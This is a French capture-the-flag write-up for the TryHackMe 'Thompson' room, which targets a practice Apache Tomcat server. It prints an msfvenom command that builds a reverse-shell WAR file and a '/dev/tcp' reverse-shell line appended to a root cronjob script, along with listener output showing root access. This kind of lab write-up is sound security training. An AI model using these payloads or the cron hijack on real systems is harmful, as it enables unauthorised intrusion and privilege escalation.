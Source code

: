 ```yaml
---
title: Thompson
tags: [TryHackMe, Facile, Tomcat]
style: border
color: thm
comments: false
description: Exploitation d'un serveur Apache Tomcat
---
```


# Thompson (Guatemala CTF) <!-- omit in toc -->

Lien vers l'épreuve : <https://tryhackme.com/r/room/bsidesgtthompson>

![Easy](https://img.shields.io/badge/Difficulté-Facile-Green?logo=tryhackme)

## Sommaire <!-- omit in toc -->

* [1. Reconnaissance](#1-reconnaissance)
* [2. Visite du site](#2-visite-du-site)
* [3. Accès au serveur](#3-accès-au-serveur)
* [4. Flag utilisateur](#4-flag-utilisateur)
* [5. Elevation de privilèges](#5-elevation-de-privilèges)

---

## 1. Reconnaissance

```bash
nmap -T4 -A 10.10.216.88
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-08-30 15:39 CEST
Nmap scan report for 10.10.216.88
Host is up (0.057s latency).
Not shown: 997 closed tcp ports (conn-refused)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 fc:05:24:81:98:7e:b8:db:05:92:a6:e7:8e:b0:21:11 (RSA)
|   256 60:c8:40:ab:b0:09:84:3d:46:64:61:13:fa:bc:1f:be (ECDSA)
|_  256 b5:52:7e:9c:01:9b:98:0c:73:59:20:35:ee:23:f1:a5 (ED25519)
8009/tcp open  ajp13   Apache Jserv (Protocol v1.3)
|_ajp-methods: Failed to get a valid response for the OPTION request
8080/tcp open  http    Apache Tomcat 8.5.5
|_http-favicon: Apache Tomcat
|_http-title: Apache Tomcat/8.5.5
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

L'analyse par le scanner Nmap nous montre que la machine héberge un serveur SSH sur le port 22 et un serveur Apache Tomcat sur le port 8080.

Commençons donc par analyser le site.

## 2. Visite du site

Nous arrivons sur la page par défaut d'un serveur Apache.

{% include elements/figure.html image="../images/THM/20240830/VirtualBox_Kali Hack_30_08_2024_15_47_30.png" caption="Première connexion" %}

La tentative de connexion aux outils d'administration en utilisant des identifiants potentiels comme admin/admin ou tomcat/tomcat n'a pas fonctionné.

Lorsque nous annulons finalement l'authentification, nous arrivons sur une page d'erreur particulièrement verbeuse donnant des identifiants.

{% include elements/figure.html image="../images/THM/20240830/Capture_ecran_2024-08-30_401.png" caption="Identifiants dévoilés dans la page d'erreur" %}

## 3. Accès au serveur

En navigant, nous arrivons sur une page permettant de déployer des fichiers au format WAR (*Web Application Archive*)

En faisant une recherche sur la dépôt Github [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings), nous pouvons trouver une commande permettant de créer un fichier WAR malicieux permettant d'obtenir un *reverse shell* :

```bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.0.0.1 LPORT=4242 -f war > reverse.war
```

Après avoir créé la charge avec les données correspondant à notre machine et avoir mis le port (le même qu'indiqué dans `LPORT`) de notre machine en écoute avec Netcat, nous pouvons téléverser le fichier `reverse.war`, puis cliquer sur le nouveau lien "reverse" qui vient d'apparaître sur l'interface.

Nous sommes à présent connecter au serveur.

```bash
nc -lvnp 9000           
listening on [any] 9000 ...
connect to [10.9.1.218] from (UNKNOWN) [10.10.216.88] 55446
id
uid=1001(tomcat) gid=1001(tomcat) groups=1001(tomcat)
```

## 4. Flag utilisateur

Améliorons le shell obtenu pour faciliter la navigation :

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

L'utilisateur dont nous devons trouver les identifiants est Jack.

```bash
ls -hAl /home
total 4.0K
drwxr-xr-x 4 jack jack 4.0K Aug 23  2019 jack
```

Les 3 derniers caractères `r-x` indique que n'importe quel utilisateur peut lire ou se déplacer dans le répertoire de l'utilisateur. Mieux encore, le flag utilisateur est également lisible. Tout comme un script `id.sh` qui est également exécutable par tout le monde.

```bash
ls -hl
total 12K
-rwxrwxrwx 1 jack jack 26 Aug 14  2019 id.sh
-rw-r--r-- 1 root root 39 Aug 30 07:26 test.txt
-rw-rw-r-- 1 jack jack 33 Aug 14  2019 user.txt
```

```bash
cat user.txt
39400c[...expurgé...]f181bf
```

## 5. Elevation de privilèges

L'analyse des autres fichiers présents dans le dossier personnel de Jack ne donne pas beaucoup d'informations. Le script permet d'écrire les informations d'un utilisateur dans le fichier test.txt

```bash
ls -hl
total 12K
-rwxrwxrwx 1 jack jack 26 Aug 14  2019 id.sh
-rw-r--r-- 1 root root 39 Aug 30 07:26 test.txt
-rw-rw-r-- 1 jack jack 33 Aug 14  2019 user.txt

cat id.sh
#!/bin/bash
id > test.txt

cat test.txt
uid=0(root) gid=0(root) groups=0(root)
```

 Cependant, en relançant la commande `ls -hl` un peu plus tard, nous observons que le fichier `test.txt` a changé d'horodatage il est donc plus que probable qu'un cronjob tourne sur la machine pour lancer le script id.sh :

```bash
-rw-r--r-- 1 root root 39 Aug 30 07:34 test.txt
```

En analysant le fichier `/etc/crontab` nous pouvons constater qu'il y a bien un job tournant toutes les minutes, en tant que l'utilisateur root.

```bash
* * * * *   root    cd /home/jack && bash id.sh
```

En utilisant le site [Revshells](https://www.revshells.com/) nous pouvons créer une commande à ajouter au fichier `id.sh` pour obtenir un *reverse shell* non plus en tant que "tomcat" mais cette fois "root"

```bash
echo 'sh -i >& /dev/tcp/10.0.0.1/9001 0>&1' >> id.sh
```

Mettons maintenant Netcat en attente sur le port 9001, et attendons le passage de la tâche programmée.

```bash
nc -lvnp 9001
listening on [any] 9001 ...
connect to [10.9.1.218] from (UNKNOWN) [10.10.216.88] 44840
sh: 0: can't access tty; job control turned off
id
uid=0(root) gid=0(root) groups=0(root)
```

Maintenant que nous avons obtenu les droits root sur la machine, il ne reste plus qu'à lire le fichier `/root/root.txt`

```bash
cat root.txt
d89d53[...expurgé...]e7ca3a
```
